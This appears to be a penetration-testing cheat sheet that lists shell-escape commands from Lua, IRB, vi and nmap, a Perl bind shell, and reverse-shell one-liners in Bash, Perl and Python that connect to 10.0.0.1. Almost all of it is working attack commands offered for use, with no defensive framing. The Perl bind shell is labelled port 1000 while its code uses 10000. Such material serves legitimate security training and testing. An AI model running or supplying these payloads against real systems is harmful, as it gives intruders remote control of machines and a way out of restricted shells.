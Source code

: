 ```
	lua: os.execute('/bin/sh')
```

(From within IRB)
```	
	exec "/bin/sh"
```

(From within vi)
```
	:!bash
```

(From within vi)
```
	:set shell=/bin/bash:shell
```

(From within nmap)
```
	!sh
```

### Bind Shells

https://github.com/infodox/exploits/blob/master/payloads/linux/perl.py
	
Perl Bind Shell (Port 1000)
```
	perl -e 'use Socket;$p=10000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S, SOMAXCONN);for(; $p= accept(C, S); close C) {open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/usr/bin/bash -i");};'
```

### Reverse Shells

Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):
```
	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:
```
	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python
This was tested under Linux / Python 2.7:
```	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
